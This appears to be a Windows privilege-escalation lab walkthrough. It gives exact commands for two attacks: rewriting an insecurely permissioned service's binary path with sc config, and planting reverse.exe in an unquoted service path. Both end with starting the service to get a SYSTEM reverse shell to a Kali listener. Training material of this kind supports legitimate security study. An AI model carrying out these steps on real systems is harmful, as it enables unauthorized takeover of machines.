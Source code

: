 # WPE Techniques
## Service Exploits - Insecure Service Permissions 


1. Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

2. Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):

```
sc qc daclsvc
```

3. Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start daclsvc
```

## Service Exploits - Unquoted Service Path 

1. Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.

```
sc qc unquotedsvc
```

2. Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

3. Copy the reverse.exe executable you created to this directory and rename it Common.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

4.Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start unquotedsvc
```

